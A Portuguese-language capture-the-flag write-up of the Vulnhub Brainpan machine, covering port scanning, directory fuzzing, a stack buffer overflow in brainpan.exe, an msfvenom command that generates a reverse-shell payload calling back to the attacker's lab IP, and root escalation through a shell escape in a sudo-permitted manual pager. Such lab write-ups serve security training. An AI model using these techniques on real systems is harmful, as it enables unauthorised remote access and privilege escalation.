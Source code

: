 ```yaml
---
title: Vulnhub - Brainpan
categories: [Vulnhub]
#tags: []
render_with_liquid: false
image: https://0xPurpl3john.github.io/assets/img/Vulnhub/brainpan/capa.png
---
```



## Link da Maquina: <https://www.vulnhub.com/entry/brainpan-1,51/>
---



## Scanning web and services
### Host Discovery

Inicialmente, foi realizado um escaneamento na rede em busca do IP da máquina alvo.

```bash
sudo nmap 10.0.2.1-255 -sn
```

![scan nmap -sn](/assets/img/Vulnhub/brainpan/scannmap.png)

### Port Discovery

Já com o IP alvo em mãos, foi utilizado o comando abaixo para obter mais informações a respeito das portas e serviços que estariam em funcionamento no alvo. O comando abaixo é dividido em duas partes, primeiramente ele realiza um escaneamento em todas as `65535 portas` existentes e as filtra, armazenando tudo na variável `ports` que é utilizada na segunda parte do comando.

```bash
ports=$(sudo nmap -p- -Pn --min-rate=1000 -T4 10.0.2.7 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//) && sudo nmap -sC -sV -p $ports 10.0.2.7
```

![Resultado scan nmap](/assets/img/Vulnhub/brainpan/resultnmap.png)

Como resultado foi obtido as portas `9999` com um serviço até então desconhecido denominado *”abyss?”* e `10000` utilizando um *SimpleTTPServer.* A partir dessa informação, deu-se início à enumeração das portas.

## Enumeration

### HTTP

Tendo em vista o total desconhecimento sobre o serviço da porta `9999`, foi iniciado a enumeração da porta `10000` e foi encontrado uma página onde o conteúdo inteiro presente é uma imagem.

![10.0.2.7:10000](/assets/img/Vulnhub/brainpan/web10000.png)

A partir disso foi utilizado a ferramenta **fuff** para realizar o fuzzing de diretórios no serviço. Como resultado foi encontrado o diretório `/bin` no destino: `[http://10.0.2.7:10000/bin](http://10.0.2.7:10000/bin)` 

```bash
ffuf -u http://10.0.2.7:10000/FUZZ -w /usr/share/wordlists/dirb/big.txt
```

![ffuf](/assets/img/Vulnhub/brainpan/ffuf.png)

### brainpan.bin

Dentro do diretório `/bin` foi encontrado o arquivo `brainpan.exe` que ao ser testado com a ferramenta **wine**, mostrou-se ser o serviço que estava funcionando na porta 9999, conforme apresentado nas figuras abaixo.

![conteudo dir /bin](/assets/img/Vulnhub/brainpan/dirbin.png)

![brainpan.exe](/assets/img/Vulnhub/brainpan/brainpan.png)

![teste brainpan.exe](/assets/img/Vulnhub/brainpan/testbrainpan.png)

> Foram feitas algumas tentativas de entradas de dados (senha) porém todas sem sucesso.
> 

Após, foram iniciados testes com quantidades diferentes de strings até que fosse possível quebrar o programa, de acordo com as imagens a seguir.

![python -c ‘print (”A” * 200)’](/assets/img/Vulnhub/brainpan/python-c.png)

![Resultado da inclusão de 200 A’s](/assets/img/Vulnhub/brainpan/result200a.png)

Como visto, utilizando 200 bytes o programa funcionou normalmente. Agora, utilizaremos 1000 bytes.

![python -c ‘print (”A” * 10000)’](/assets/img/Vulnhub/brainpan/print1000a.png)

Foi possível quebrar o programa, logo, não há tratamento para dados em excesso e com isso tentaremos realizar o *Buffer Overflow.*

## Buffer Overflow

Após observar como a aplicação se comporta através da ferramenta *gdb,* foi verificado que o espaço de armazenamento da aplicação era de aproximadamente 520 bytes, logo, utilizando o comando abaixo, foi gerado uma lista com strings únicas.

```bash
msf-pattern_create -l 530
```

![brainpan.exe buffer](/assets/img/Vulnhub/brainpan/brainpanbuffer.png)

Enviando essa string para a área de input do binário alvo, e, observando o que acontece com a ferramenta *Immunity Debugger,* foi possível obter o parâmetro EIP onde a aplicação quebra.

![Parâmetro EIP](/assets/img/Vulnhub/brainpan/parametroeip.png)

Utilizando os dados obtidos no EIP da aplicação e, utilizando o comando abaixo, é possível obter a posição do desejado *offset.*

```bash
msf-pattern_offset -l 530 -q 35724134
```

![offset 524](/assets/img/Vulnhub/brainpan/offset524.png)

Com o valor do *offset* em mãos, chega a hora de utilizar nosso script para termos certeza a respeito do domínio total do EIP. O script abaixo, envia, de maneira automática, um buffer composto de 524 strings “A” e mais 4 strings “B”. As strings “B” (42) deverão ser visualizadas nos registradores do EIP.

![fuzzer.py](/assets/img/Vulnhub/brainpan/fuzzerpy.png)

![evil buffer in work](/assets/img/Vulnhub/brainpan/evilbuffer.png)

![local das strings BBBB](/assets/img/Vulnhub/brainpan/stringsbbbb.png)

Conforme a figura acima, o EIP foi corretamente preenchido com as strings “B”. Com isso, nosso controle do EIP está garantido.

Para gerar uma lista com todos os *chars* é utilizado os seguintes comandos

- `!mona config -set workingfolder c:\monalogs\%p`
- `!mona bytearray`

Gerando a seguinte lista de chars

```
"\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
```

![fuzzer-2.py](/assets/img/Vulnhub/brainpan/fuzzer2py.png)

![!mona compare -f c:\monalogs\brainpan\bytearray.bin -a 0028F930](/assets/img/Vulnhub/brainpan/monacompare.png)

Com base na resposta do *mona* na figura acima, foi percebido que havia `\x00\` como um *badchar.* A partir disso, foram repetidos os passos anteriores porém, utilizando o parâmetro *-b* e o *badchar.*

Novamente foi feito o fuzzing para verificação de novos *badchars.* Não foi encontrado nenhum.

Tendo em vista que já encontramos e temos controle total do EIP, chegou a hora de buscar na aplicação o *opcode* JMP ESP.

> O *opcode* JMP ESP é responsável por realizar um SALTO para o *opcode* ESP.
> 

![opcode JMP ESP](/assets/img/Vulnhub/brainpan/opcodejmpesp.png)

Como visualizado na figura acima, foi encontrado o *opcode* JMP ESP e o mesmo possui os parâmetros 311712F3 e estes, devem ser passados, ao contrário, para nosso script no parâmetro *retn* conforme apresentado na figura abaixo.

![fuzzer-3.py](/assets/img/Vulnhub/brainpan/fuzzer3py.png)

No script `fuzzer-3.py` pode-se observar as variáveis “overflow, retn e padding”. Na variável “padding” está sendo enviado 400 strings “\xCC\” logo após o JMP ESP que está na variável “retn”.

![sending fuzzer-3.py](/assets/img/Vulnhub/brainpan/fuzzer3pysend.png)

![Tela Immunity Debbuger xCC](/assets/img/Vulnhub/brainpan/telaimmunity.png)

O próximo passo é criar o payload que será utilizado após a variável “padding” do nosso script. Para isso deve ser utilizado o comando abaixo.

> Lembrando de alterar os dados LHOST e LPORT
> 

```bash
sudo msfvenom -p linux/x86/shell_reverse_tcp -b '\x00' LHOST=10.0.2.6 LPORT=1337 -f python
```

![msfvenom payload](/assets/img/Vulnhub/brainpan/payload.png)

![fuzzer-4.py](/assets/img/Vulnhub/brainpan/fuzzer4py.png)

Executando o script da figura acima e utilizando o *nc* como o listener da porta 1337, entramos na máquina.

### Shell Obtido

![Shell Obtido!](/assets/img/Vulnhub/brainpan/shellobtido.png)

## Privilege Escalation

A partir do momento que foi obtido a shell na máquina alvo, foram realizados procedimentos padrão em busca da escalação de privilégios e o comando `sudo -l` nos trouxe como resposta que o usuário **puck** possuía permissão de executar o comando `/home/anansi/bin/anansi_util` como um usuário mais privilegiado, no caso, o root.

![/home/anansi/bin/anansi_util](/assets/img/Vulnhub/brainpan/anansi_util.png)

Executando o comando supracitado e entendendo seu funcionamento, foi possível observar que o mesmo possuía alguns parâmetros para executar. Dentre eles, o parâmetro **manual** chamou a atenção e ao utiliza-lo foi possível observar que havia a possibilidade de chamar outros comandos dentro do manual, conforme a figura abaixo.

![!/bin/sh](/assets/img/Vulnhub/brainpan/binsh.png)

Ao utilizar o comando `!/bin/sh` foi possível escalar privilégios.

![b.txt](/assets/img/Vulnhub/brainpan/btxt.png)

### Root obtido Brainpan!
